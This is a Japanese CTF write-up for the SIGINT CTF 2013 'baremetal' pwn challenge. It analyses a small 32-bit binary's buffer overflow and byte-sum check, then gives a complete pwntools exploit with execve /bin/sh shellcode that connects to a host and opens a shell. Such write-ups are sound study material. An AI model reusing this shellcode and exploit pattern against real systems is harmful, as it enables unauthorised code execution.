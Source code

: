 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/03/31/sigint-ctf-2013-baremetal/
date: 2016-03-31T04:41:15+09:00
tags: [ "ctf", "writeup", "pwn", "sigint-ctf", "bof" ]
"target_url": [ "http://shell-storm.org/repo/CTF/SIGINT-2013/pwning/baremetal-100/" ]
---
```


# SIGINT CTF 2013 baremetal

## 解法

``` sh
$ file baremetal
baremetal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

$ checksec --file baremetal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   baremetal

$ ldd baremetal
    not a dynamic executable

$ ll baremetal
-rwxr-xr-x 1 user user 684 Jul  8  2013 baremetal
```

-   直接`int 0x80`する小さなバイナリ
-   入力を読み、この文字列がチェックを通過すれば、bss領域にあるコードを実行する

<!-- -->

-   入力にbofがあって、実行されるコードの先頭$1$byteを上書き可能
-   チェックは、各文字のascii codeの総和が0x1ee7であるかどうか、である
    -   入力が短すぎてもだめだが、これは容易に無視できる
    -   nullまでの総和であるので、bofすると考慮すべき文字が追加されるので注意
-   実行されるコードというのは`\x47\x47\xff\xe7` `inc edi; inc edi; jmp edi`
    -   bufferのaddressは`eax`に入っている
    -   `\x97` `xchg edi, eax`を使う
    -   以下を適当に叩いて探した どうせ高々$256$通りである

``` sh
$ echo -n $'\x97\x47\xff\xe7\0\0\0\0' > a && objdump -D a -b binary -mi386 -M intel
```

## 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

read_len = 0x3d
funptr = "\x47\x47\xff\xe7"
cmp_sum = 0x1ee7

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = \
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + \
    "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
xchg_edi_eax = "\x97"

payload = ["\xff", shellcode, xchg_edi_eax]
l = read_len - len(''.join(payload))
s = [1] * l
i = 0
measure = lambda: sum(map(ord,''.join(payload))) + sum(s) + sum(map(ord,funptr[1:]))
while measure() < cmp_sum:
    d = cmp_sum - measure()
    s[i] += min(255 - 1, d)
    i += 1
payload.insert(2, ''.join(map(chr,s)))
payload = ''.join(payload)

log.info(repr(payload))
log.info(str(sum(map(ord,payload))))

p = remote(args.host, args.port)
p.recvline()
p.send(payload)
time.sleep(0.2)
p.sendline('id')
p.interactive()
```
